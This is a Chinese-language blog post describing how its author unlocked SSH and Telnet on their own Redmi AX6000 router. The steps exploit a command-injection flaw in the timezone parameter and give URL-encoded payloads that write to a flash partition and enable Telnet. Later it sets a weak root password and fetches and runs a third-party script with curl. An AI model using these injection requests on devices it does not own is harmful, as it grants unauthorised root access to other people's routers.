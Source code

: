 ```yaml
---
layout: post
title: Redmi AX6000 开启 telnet/SSH
date: 2023-08-13
Author: bwt
categories: 笔记
tags: [路由器, OpenWrt, SSH, Redmi AX6000]
comments: true
toc: true
---
```


Redmi AX6000 路由器解锁 SSH 记录, 主要参考了恩山论坛:
[[小米其它型号路由器] 【解锁SSH】红米Redmi AX6000开启并固化SSH、Telnet的简单方法（RB06）](https://www.right.com.cn/forum/thread-8253195-1-1.html)
这篇文章.

<!--break-->

### 一. 刷入指定系统版本

> Redmi AX6000 的系统版本分两个系列: 1.2.X 代表开发版本, 1.0.XX 代表稳定版本, 消费者买到时系统版本都为 1.0.XX

下图是我拿到手之后的版本(1.0.67):
![我的出厂版本](https://zonheng.net/tech/redmi_ax6000_version.png-thumbnail)

根据恩山论坛帖子介绍, 1.0.67 支持解 SSH, 无需刷入其他版本(若有特殊版本需求可以进入固件集合链接下载).
![Redmi AX6000 支持开启 SSH 版本](https://zonheng.net/tech/redmi_ax6000_support_ssh_version.png-thumbnail)

### 二. 开启调试模式

登录路由管理后台, 通过 url 拿到 stock, 例如链接为: `http://192.168.31.1/cgi-bin/luci/;stok=2193ac10ff21f3278dea441e19a94c123/web/setting/upgrade`,
stock 就是: `2193ac10ff21f3278dea441e19a94c123` .

然后构造请求:
```shell
http://192.168.31.1/cgi-bin/luci/;stock={token}/api/misystem/set_sys_time?timezone=%20%27%20%3B%20zz%3D%24%28dd%20if%3D%2Fdev%2Fzero%20bs%3D1%20count%3D2%202%3E%2Fdev%2Fnull%29%20%3B%20printf%20%27%A5%5A%25c%25c%27%20%24zz%20%24zz%20%7C%20mtd%20write%20-%20crash%20%3B%20
```

> 这条命令利用了路由器设置时区的漏洞, 漏洞详情可以参考 OpenWrt 论坛: [add-openwrt-support-for-xiaomi-redmi-ax6000](https://forum.openwrt.org/t/add-openwrt-support-for-xiaomi-redmi-ax6000/125008/132).
> 
> 路由器收到请求后会执行: `zz=$(dd if=/dev/zero bs=1 count=2 2>/dev/null) ; printf '\xA5\x5A%c%c' $zz $zz | mtd write - crash ;`
> 将 `\xA5\x5A\x00\x00` 写入crash分区.

### 三. 重启

执行: `http://192.168.31.1/cgi-bin/luci/;stok={token}/api/misystem/set_sys_time?timezone=%20%27%20%3b%20reboot%20%3b%20`

等待重启完成, 重启完成后路由器指示灯为蓝色闪烁状态.

> 将 `%20%27%20%3b%20reboot%20%3b%20` URL 解码之后得到: `' ; reboot ;`.

### 四. 开启 Telnet

执行:
```shell
http://192.168.31.1/cgi-bin/luci/;stok={token}/api/misystem/set_sys_time?timezone=%20%27%20%3B%20bdata%20set%20telnet_en%3D1%20%3B%20bdata%20set%20ssh_en%3D1%20%3B%20bdata%20set%20uart_en%3D1%20%3B%20bdata%20commit%20%3B%20
```

> 此处执行的命令是: `' ; bdata set telnet_en=1 ; bdata set ssh_en=1 ; bdata set uart_en=1 ; bdata commit ;`

### 五. 重启

将步骤三的命令重新执行即可, 然后等待重启完成.

### 六. 开启SSH

电脑端使用命令行工具执行: `telnet 192.168.31.1`, 可以无密码登录到路由器, 如图:

![Redmi AX6000 telnet](https://zonheng.net/tech/redmi_ax6000_telnet.png-thumbnail)

执行以下 shell:
```shell
# 1. 将 root 用户的密码设置为 admin
echo -e 'admin\nadmin' | passwd root

# 2. 固化 SSH
nvram set ssh_en=1
nvram set telnet_en=1
nvram set uart_en=1
nvram set boot_wait=on
nvram commit

# 3. 永久开启 SSH 登录
mkdir /data/auto_ssh && cd /data/auto_ssh
curl -O https://cdn.jsdelivr.net/gh/lemoeo/AX6S@main/auto_ssh.sh
chmod +x auto_ssh.sh

uci set firewall.auto_ssh=include
uci set firewall.auto_ssh.type='script'
uci set firewall.auto_ssh.path='/data/auto_ssh/auto_ssh.sh'
uci set firewall.auto_ssh.enabled='1'
uci commit firewall
# 
```

> 如果不想支持 SSH 永久登录, 仅临时性开启, 可以将上面的第三部分命令替换成这个:
> ```shell
> sed -i 's/channel=.*/channel="debug"/g' /etc/init.d/dropbear
> /etc/init.d/dropbear restart
> ```

### 七. 恢复正常模式

执行: 
```shell
# 将时区设置成正常值
uci set system.@system[0].timezone='CST-8'
uci set system.@system[0].webtimezone='CST-8'
uci set system.@system[0].timezoneindex='2.84'
uci commit

# 关闭调试模式
mtd erase crash

# 重启
reboot
```
重启完成后, 路由器指示灯由蓝灯闪烁变成长亮. 此时可以通过 ssh 命令登录: `ssh root@192.168.31.1`.

> 若出现提示: `Unable to negotiate with 192.168.31.1 port 22: no matching host key type found. Their offer: ssh-rsa`, 可以
> 增加参数: `ssh root@192.168.31.1 -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedAlgorithms=+ssh-rsa` 即可.

若觉得麻烦, 不想每次都输入这么长的命令, 可以在配置文件中追加(配置文件在 `~/.ssh/config`):

```shell
HOST ax6000
  Hostname 192.168.31.1
  UseKeychain yes
  ServerAliveInterval 30
  Port 22
  User root
  HostKeyAlgorithms = +ssh-rsa
  PubkeyAcceptedAlgorithms = +ssh-rsa
```

保存以后可以直接用: `ssh ax6000` 命令登录.

### 八. 参考

* [[小米其它型号路由器] 【解锁SSH】红米Redmi AX6000开启并固化SSH、Telnet的简单方法（RB06）](https://www.right.com.cn/forum/thread-8253195-1-1.html)
* [add-openwrt-support-for-xiaomi-redmi-ax6000](https://forum.openwrt.org/t/add-openwrt-support-for-xiaomi-redmi-ax6000/125008/132)
* [红米 AX6000 最强 CPU 的硬路由｜解锁 SSH 安装 ShellClash 教程](https://qust.me/post/ax6000-shellclash/)
